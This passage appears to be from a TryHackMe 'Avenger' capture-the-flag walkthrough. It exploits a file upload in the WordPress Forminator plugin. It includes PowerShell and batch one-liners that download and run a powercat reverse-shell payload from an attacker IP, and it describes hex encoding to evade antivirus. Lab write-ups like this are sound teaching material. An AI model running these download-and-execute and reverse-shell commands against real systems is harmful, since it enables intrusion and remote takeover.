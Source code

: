 I checked the exploit related to forminator version 1.24.1 and I got this exploit →

**[WordPress Plugin Forminator 1.24.6 - Unauthenticated Remote Command Execution](https://www.exploit-db.com/exploits/51664)**

I used it on that form that I got earlier through burpsuite I uploaded some file but no response so I created a html file that will load the local server and Lets see if the victim machine callbacks that file or not →

```html
<img src='http://10.8.83.156:80/Filename' />
```
{: .nolineno}
{: .nolineno}

![Untitled](Avenger/Untitled%205.png)

As I noticed that the file after uploading , it gets callback from the system so I have to create a reverse shell script and upload it so that it get callback and I can get the shell .

> But I also have to take care of Antivirus that is activated on the system , so for evading it . I used a `powercat` payload and encoded in its `Hexadecimal Array` that can help me to evade the Antivirus detection.
{: .prompt-tip }

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Avenger]
└─$ LHOST=10.8.83.156  
LPORT=443  
rshell=shell-443.txt  
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > ~/Downloads/Tryhackme/Avenger/$rshell
```
{: .nolineno}
{: .nolineno}
{: file='shell-433.txt'}

Now I have to create another batch file (.bat) that will download this payload `shell-443.txt` and execute it as powershell →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Avenger]
└─$ echo "START /B powershell -c \$code=(New-Object System.Net.Webclient).DownloadString('http://10.8.83.156:80/shell-443.txt');iex 'powershell -E \$code'" > ~/Downloads/Tryhackme/Avenger/shell.bat
```
{: .nolineno}
{: .nolineno}
{: file='shell.bat'}

Lets upload this shell.bat file that will give me a shell on port 443 so I have to start my nc listener on port 443 →

![Untitled](Avenger/Untitled%206.png)

My file then gets a callback from the victim machine →
